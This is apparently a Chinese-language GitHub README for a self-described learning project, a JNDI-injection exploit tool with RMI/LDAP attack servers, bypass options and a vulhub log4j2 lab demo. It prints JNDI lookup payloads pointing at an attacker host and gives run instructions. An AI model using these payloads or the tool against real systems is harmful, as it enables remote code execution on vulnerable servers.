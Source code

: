## JNDI EXP——基于JNDI服务的Java漏洞利用工具

本项目是Java小白对前期学习内容的一个梳理和总结，并最终输出落地的小成果。

本项目是基于 su18 师傅的 [JNDI](https://github.com/su18/JNDI) 以及 welk1n 师傅的 [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit/)，在他们的基础上拓展了小部分高版本绕过的姿势，以及采用了配置文件和命令行结合的方式来输入数据，本质上是一个轮子项目，但是自己学到了模块化集成与开发，知识点归纳的能力，这就足够了。



## 功能

工具启动后可以看到提供 RMI 和 LDAP 两种服务，根据用户命令行输入来启动指定的服务。同时后台有 Jetty 内置 web服务器用来接收处理重定向请求，返回攻击向量

![image-20230122220242899](Readme/image-20230122220242899.png)

-s 参数指定使用的具体服务类型 rmi/ldap

**JNDI-RMI 提供的功能如下:**

![image-20230122161954927](Readme/image-20230122161954927.png)

-e 参数指定攻击利用选项，参考 su18 师傅对基本的利用做了归纳；-p 指定服务监听端口；-l 指定 Jetty 服务器监听的端口； -s 指定服务所在主机 ip；-o 指定了攻击向量的类型（低版本高版本绕过方式）

**JNDI-LDAP 提供的功能如下：**

![image-20230122162344708](Readme/image-20230122162344708.png)

与前面类似，不过这里 -g 参数用于在高版本绕过 codebase 限制时选择指定的反序列化利用gadget

另外，搭配配置文件来指定具体的内容

![image-20230122162757279](Readme/image-20230122162757279.png)

其中最后的 echo 选项指定回显方式

## 安装使用

```git
git clone https://github.com/RacerZ-fighting/JNDI-EXP.git
java -jar JNDIEXP-1.0-SNAPSHOT-all.jar -h
```



## 使用展示

这里以 vulhub 的 log4j2 靶场为例，对相关功能进行展示

![image-20230122163253208](Readme/image-20230122163253208.png)

- JNDI-RMI 攻击：

  ![image-20230122220512367](Readme/image-20230122220512367.png)

生成 payload：`rmi://172.16.80.1:1099/Command`

结合log4j2的payload注入靶场中对应的字段

![image-20230122163950313](Readme/image-20230122163950313.png)

![image-20230122220712178](Readme/image-20230122220712178.png)

可以看到工具成功进行了回响，但是服务端无回显内容，查看OOB回显的DNS平台成功回显

![image-20230122220841680](Readme/image-20230122220841680.png)

- JNDI-LDAP 攻击：

![image-20230122220907501](Readme/image-20230122220907501.png)

生成 payload: `ldap://172.16.80.1:1099/Command`

结合log4j2的payload注入靶场中对应的字段

![image-20230122220953913](Readme/image-20230122220953913.png)

![image-20230122221001787](Readme/image-20230122221001787.png)

同样在dns平台得到回显

![image-20230122221117197](Readme/image-20230122221117197.png)



## 技术细节

架构如下：

![image-20230122224954960](Readme/image-20230122224954960.png)

回显技术以及通用的利用技术参考了 su18 师傅的实现。

命令行处理模块利用了 picocli 这个命令行组件，收集齐所有参数。通过 -s 参数指定的服务类型分发给对应的服务端，启动并生成payload，处理发过来的请求。

这里命令行组件可能存在线程问题，导致 ldap 服务端这里在发起端口监听之后程序就自动退出了，我这里作了简单的线程延时的缓解 `Thread.sleep(100000);`

rmi 和 ldap 服务汇总了常见的利用思路：rmi 低版本远程类加载、高版本（8u131）通过本地工厂类加载（tomcat 和 groovy）；ldap 低版本远程类加载、高版本（8u191）通过传递反序列化链达到 RCE，具体细节可以参见：

- https://racerz-fighting.github.io/2023/01/11/JNDI/



字节码生成模块使用了 idea 中的插件 `ASM Bytecode Outline` 生成，利用反射作粘合剂。su18师傅提到的未完成中提到使用 AdviceAdapter 的 onMethodEnter、onMethodExit更优雅的生成代码。我在这里做了尝试，但是没有成功，主要遇到如下几个问题：

onMethodEnter 是基于 `visitCode` 方法进行封装的，所以插入字节码时要先弄清楚方法的起始点在哪里，这里在对构造函数进行处理时很容易乱；其次onMethodEnter 只允许对局部变量表当中的内容作修改，而不能改变操作数栈当中的状态，所以实现起来难度蛮大的



## 参考

https://github.com/su18/JNDI

https://github.com/welk1n/JNDI-Injection-Exploit/

https://javasec.org/
